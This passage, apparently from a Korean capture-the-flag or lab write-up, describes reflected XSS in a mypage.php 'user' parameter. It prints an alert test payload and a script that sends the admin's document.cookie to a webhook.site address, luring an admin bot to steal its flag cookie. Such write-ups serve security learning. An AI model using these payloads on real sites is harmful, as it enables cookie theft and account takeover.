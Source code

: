 **관리자 쿠키에 포함된 플래그를 탈취하는 데 성공**하였다.

---

## XSS 3

`mypage.php`의 `user` 파라미터에 페이로드를 삽입한 결과, 아래와 같이 `alert` 창이 실행되는 것을 확인하였다.

![xss2 flag](/assets/screenshots/stored-reflected-xss/xss3_script.png)

```js
123"/><script>alert(1)</script>
```

입력값이 필터링 없이 HTML 문서에 **직접 렌더링(rendered)**되고 있어, **Reflected XSS 취약점이 존재함**을 확인할 수 있다.

**이를 기반으로, 관리자 봇이 스크립트가 포함된 URL에 접근하도록 유도하였다.**

```html
123"/><script>new Image().src="https://webhook.site/00da818a-c861-444c-8a3a-c50bd3e46a01?cookie="%2Bdocument.cookie</script>
```

위 페이로드를 URL에 포함하여, **관리자 봇이 해당 URL에 접속하도록 유도**할 것이다.
